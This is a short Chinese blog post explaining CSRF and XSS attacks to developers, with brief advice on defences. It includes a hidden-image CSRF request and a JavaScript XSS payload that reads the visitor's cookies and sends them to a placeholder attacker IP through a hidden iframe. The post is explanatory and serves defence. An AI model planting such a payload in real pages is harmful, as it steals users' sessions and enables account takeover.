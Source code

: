 ```yaml
---
title: CSRF 和 XSS
date: 2019-10-27
tags:
---
```


最近在做一个网站，因爲涉及到比较重要的账号，我一直战战兢兢，生怕一个不小心就搞出问题了。好在，rails 在安全方面所做的努力比我做的多得多。

<!-- more -->

说到网络攻击，最常见到的两个词就是 CSRF 和 XSS。这是比较常见，也比较简单的攻击了。只要网站的设计者缺少这方面的常识，就能轻易攻击。不过现在的网站框架都会加上这方面的防护了吧？

不过，我还是想做个简短的笔记，来回忆这几天的想法。

## 什麽是 CSRF

Crossing Site Request Forgery，跨站请求僞造。是一种利用 Cookies 进行攻击的方式。

在解释 CSRF 前，我们先来了解一下 Cookies 和 Sessions。由于 HTTP 的无状态机制，任意两个网页之间都是无关联的。爲了让它们产生关联，诞生了 sessions 和 cookies。当我们打开网站时，都是一个会话(sessions)，浏览器会临时保存这个 sessions，服务器靠着 sessions 来识别衆多用户中谁是谁，正因爲 浏览器 保存着 sessions，服务器才有能力辨识，当前访问的用户是 A 不是 B。浏览器被关闭后，就会消去 sessions。而 cookies 是保存得更久一点的方法，即使浏览器关掉后，也会保留一段时间。

大坏蛋就利用这两个机制，发起了 CSRF。

举个简单的例子。小明在 A 网站（http://A.com）登录后，爲了保证访问下一个页面时，服务器知道他是小明，浏览器里保存了 Cookies，当访问该网站的下一个页面是，就会连同 Cookies 一同发出。之后小明发表了一篇 id 爲 3 的论文。大坏蛋的 B 网站里，有一张图片是这样的。

```
<img src='https://A/delete?id=3' width='0' height='0' />
```

这段代码表示，在网页上显示长宽爲 0 的图片。虽然长宽爲 0，小明看不到，但浏览器却能看到，它会尝试访问 A 网站，并执行删除操作，将 id 爲 3 的文章删了。

如果是其它人的浏览器，访问了也就访问了，他们的浏览器访问 https://A/delete?id=3之后，并没有多大影响，因爲他们的浏览器里没有 cookies，没有登录，拒决了访问。

但对小明而言，这就是大问题了。小明的浏览器会访问 https://A/delete?id=3，然后将 A 网站的 Cookies 也一併伟过去。这个请求被A 网站的服备器收到，它们验证 Cookies，也没问题，是小明本人发过来的，那就执行删除操作吧。

于是，小明在不明不白的情况下，将自己发表在 A 网站上的文章删除了。

CSRF 是利用了用户对浏览器的信任，进行了攻击。XSS 和 CSRF 很像，但利用的是用户的另一个弱点。

## 什麽是XSS

和上面的方法很相似，攻击者在通过代码注入的形式，将攻击代码写入网页。

但它并非进行 CSRF 攻击，而是通过 JS 代码，获取打开网页的用户 cookies。

还是个简单的例子。

小明吸取了教训，在登录其它网站前，会登出 A 网站的用户，只有在访问 A 网站时，才会登录。

然而攻击者 小坏蛋 在 A 网站发表了一篇文章，然后在文章里注入

```
// 用 <script type="text/javascript"></script> 包起来放在文章中
(function(window, document) {
    var cookies = document.cookie;
    var xssURIBase = "http://小坏蛋的IP/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    document.body.appendChild(hideFrame);
})(window, document);
```

明面上，这篇文章没什麽问题，因爲 iframe 被隐藏了。但只要有人点开，就会触发上面的代码，将 cookies 发送到小坏蛋的网站。小坏蛋就获得了其他人的身份，大摇大摆的删除文章了。

与 CSRF 不同，这一次，小明并没有上不正规的网站，他浏览的是正规的 A 的网站，却依旧遭到了攻击。这一次，攻击的是 小明 对网站的信任。

---

所以，有些时候，我们不能将用户受到网络攻击，归到他们不注重自身安全（虽然很大一部分时间的确是这样的）。用户更多时候，是没有能力保证安全的，即使再注意，不上小网站，也会遭到 XSS 攻击。

因此在设计一个系统，一个网站时，我们要加强系统本身的抗打击能力。比如对付 CSRF，就验证访问源，使用 JWT 替代 cookies；对付 XSS，用过滤，警惕自己的用户。

道高一尺，魔高一丈。最近看了关于网络安全方面的文章，觉得自己还有很长的路要走。
